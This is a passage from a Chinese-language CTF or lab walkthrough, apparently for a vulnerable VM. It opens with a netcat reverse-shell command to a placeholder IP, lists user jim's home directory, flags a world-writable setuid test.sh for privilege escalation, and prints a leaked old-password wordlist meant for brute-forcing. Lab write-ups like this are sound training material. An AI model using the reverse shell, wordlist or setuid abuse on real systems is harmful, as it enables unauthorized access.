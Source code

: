 ```bash
nc -e /bin/sh <ip> port 
```

好家伙,没问题直接给我弹出来了.

 开始搜寻文件 

这里有三个用户 

这个叫jim的用户引起了我们的注意

```
ls -al && pwd
total 32
drwxr-xr-x 3 jim  jim  4096 Apr  7  2019 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim    39 Jan 25 14:20 test.sh
/home/jim

```
在backups文件夹下 我们发现了old-password.bak

然后很明显这里的 test.sh具有suid权限 那么也就是说 我们需要登陆这个叫做jim的用户然后使用suid


```

000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
monkey
123321
dragon
654321
666666
123
myspace1
a123456
121212
1qaz2wsx
123qwe
123abc
tinkle
target123
gwerty
1g2w3e4r
gwerty123
zag12wsx
7777777
qwerty1
1q2w3e4r
987654321
222222
qwe123
qwerty123
zxcvbnm
555555
112233
```